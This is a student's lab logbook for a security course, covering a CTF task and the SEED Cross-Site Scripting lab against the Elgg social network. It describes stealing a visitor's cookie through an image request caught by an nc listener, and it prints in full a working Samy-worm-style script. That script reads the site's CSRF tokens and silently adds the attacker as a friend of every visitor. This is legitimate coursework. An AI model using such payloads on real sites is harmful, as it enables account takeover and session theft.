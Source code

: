 # Tasks for week \#9 and \#10

##CTF

- **Task 1**:
    - The purpose of this task is to catch the flag. Because the forms has a XSS vulnerability, we can inject JavaScript code that when the admin checks the page, clicks on the button and the flag appears.
    


## Cross-Site Scripting (XSS) Attack Lab

- **Task 1**:
    - The purpose of this task is to embed a JavaScript program in an Elgg profile. In order to do this, we logged in as Bobby and injected the following Javascript program in the brief description field:  
![task1.1](docs/logbook10/foto1.png)

    - Then we logged in as Alice, visited Bobby's profile and the JavaScript code was executed.
![task1.2](docs/logbook10/foto2.png)

- **Task 2**:
    - The purpose of this task is similar to the previous one but the JavaScript code displays the user's cookie.
![task2.1](docs/logbook10/foto3.png)

    - Then we logged in as Alice, visited Bobby's profile and the JavaScript code was executed, showing Alice's cookie.
![task2.2](docs/logbook10/foto4.png)

- **Task 3**:
    - The purpose of this task is similar to the previous one but this time we want the cookie to be sent to the attacker. To achieve this, we injected the following JavaScript code that sents an HTTP GET request through an image's source field.
![task3.1](docs/logbook10/foto5.png)

    - The attacker uses the nc command to listen on port 5555 and receive the HTTP request with the Alice's cookie.
![task3.2](docs/logbook10/foto6.png)

- **Task 4**:
    - The purpose of this task is to perform an similar attack to what Samy did to MySpace in 2005. Using Firefox's HTTP inspection tool, we get the following HTTP request when Bobby adds Samy as a friend:
![task4.1](docs/logbook10/foto7.png)

    - Using the same technique used in the previous tasks, we can inject the following JavaScript program in samy's profile:

    ``` 
        <script type="text/javascript">
            window.onload = function () {
            var Ajax=null;
            var ts="&elgg_ts="+elgg.security.token.elgg_ts;
            var token="&elgg_token="+elgg.security.token.elgg_token;
            //Construct the HTTP request to add Samy as a friend.
            var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
            //Create and send Ajax request to add friend
            Ajax=new XMLHttpRequest();
            Ajax.open("GET", sendurl, true);
            Ajax.send();
            }
        </script> 
    ```

    - This code creates an HTTP request that adds the current user to Samy's friend list.

    Example:
    - Alice's friend list before visiting Samy's profile:
![task4.2](docs/logbook10/foto8.png)

    - Alice visits Samy's profile and the HTTP request is executed.
![task4.3](docs/logbook10/foto9.png)

    - Alice's friend list after visiting Samy's profile:
![task4.4](docs/logbook10/foto10.png)
